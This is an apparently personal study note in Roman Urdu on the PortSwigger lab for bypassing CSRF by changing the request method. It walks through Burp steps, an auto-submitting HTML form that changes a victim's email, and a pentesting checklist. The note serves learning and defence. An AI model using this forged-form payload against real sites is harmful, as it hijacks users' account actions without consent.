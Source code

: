 # 🛡️ CSRF Bypass via Request Method – Complete Note (Urdu Style)

## 🔬 Lab Title:

**CSRF where token validation depends on request method** – PortSwigger Academy

---

## 🧠 Hum ne kya seekha?

* Yeh lab batata hai ke **CSRF token check karna sirf POST requests pe kaafi nahi hota**
* Agar server **GET requests pe token ko ignore karta hai**, to attacker **token ki protection ko bypass** kar sakta hai

---

## 💡 Yeh kis tarah ki technique thi?

| Technique Type           | Explanation                                                                         |
| ------------------------ | ----------------------------------------------------------------------------------- |
| Method-based CSRF Bypass | Jab server CSRF token sirf POST pe check karta hai, lekin GET request pe nahi karta |
| Attack Style             | CSRF using GET method                                                               |

---

## 🚀 Step-by-Step Lab Solution (CSRF GET Bypass)

---

### ✅ Step 1: Login

* Open Burp's browser
* Login credentials:

  ```
  Username: wiener
  Password: peter
  ```

---

### ✅ Step 2: Email change karo

* “My account” page pe jao
* Email ko change karo (e.g. [test@csrf.com](mailto:test@csrf.com))
* Request Burp mein capture karo

---

### ✅ Step 3: Request analyze karo

```http
POST /my-account/change-email
csrf=ABC123
email=habib@csrf.com
```

* POST method use ho rahi hai
* `csrf` token bhi diya gaya hai

---

### ✅ Step 4: Test token in POST

* Burp Repeater mein request bhejo
* `csrf=` value galat karo
* Server response:

  ```
  Invalid CSRF token
  ```

✅ Matlab token verify ho raha hai

---

### ✅ Step 5: Method ko GET banao

* Repeater mein request ko GET karo:

```http
GET /my-account/change-email?email=habib@csrf.com&csrf=XYZ HTTP/1.1
```

* Send karo

✅ Agar email change ho gaya → CSRF token GET pe verify nahi ho raha
➡️ **Site vulnerable hai**

---

### ✅ Step 6: Exploit HTML banao

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="victim@csrf123.com">
</form>
<script>
  document.forms[0].submit();
</script>
```

* Email unique hona chahiye (wiener\@... na ho)
* HTML exploit server pe paste karo
* Click: Store → Deliver to Victim

🎉 Lab Solved

---

## 🧪 Real-World Pentesting Checklist

| ✅ Check                       | Explanation                               |
| ----------------------------- | ----------------------------------------- |
| State-changing request        | Jaise email/password change               |
| CSRF token present?           | Dekho token POST mein aa raha ya nahi     |
| Invalid token → request fail? | Agar haan, to protection present          |
| Convert to GET                | Kya GET request accept hoti hai?          |
| GET pe token check ho raha?   | Agar nahi ho raha → Bypass possible       |
| Exploit test karo             | HTML se form auto-submit hota hai ya nahi |

---

## ⚠️ Developer Ki Galti

| Galti                          | Natija                         |
| ------------------------------ | ------------------------------ |
| Sirf POST pe token check karna | GET se CSRF ho sakta hai       |
| CSRF token logic partial hai   | Attacker exploit kar sakta hai |

---

## 🧠 Teri Zuban Mein Summary:

> “Yeh bug is liye mila kyunki server sirf POST request pe CSRF token check kar raha tha — jab humne method ko GET mein badla, token ki value kuch bhi daal di, phir bhi server ne accept kar liya. Yeh hi CSRF GET Bypass tha.”

---

## ✅ End

Yeh technique kam log use karte hain — agar tu isko bug bounty mein try kare to achhi vulnerabilities mil sakti hain. Hamesha har form pe method ko GET bhi try karna na bhoolna.

